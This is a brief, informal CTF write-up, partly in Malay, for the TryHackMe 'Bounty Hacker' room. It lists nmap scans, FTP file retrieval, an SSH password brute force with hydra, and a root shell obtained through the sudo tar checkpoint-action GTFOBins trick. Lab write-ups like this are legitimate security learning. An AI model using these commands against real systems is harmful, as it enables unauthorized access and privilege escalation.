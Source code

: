 ```yaml
---
date:
  created: 2023-12-19
  updated: 2023-12-19
description: THM-BountyHacker(easy) Writeup
tags:
  - ftp
  - gobuster
  - hydra
  - linpeas
  - gtfobins
comments: true
---
```


# Bounty Hacker

## Recon
nmap -p- --min-rate 5000 $IP
nmap -sCV -p 21,22,80 $IP

## Enumeration
masuk web, godek2
try fuzzing directory. takde apa2
ftp $IP
get all the file in ftp using `get` 

## Exploitation
`hydra -l lin -P locks.txt ssh://$IP`

## Privesc
letak linpeas
sudo pkexec /bin/sh xberjaya
sudo -l
tar gtfobins
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`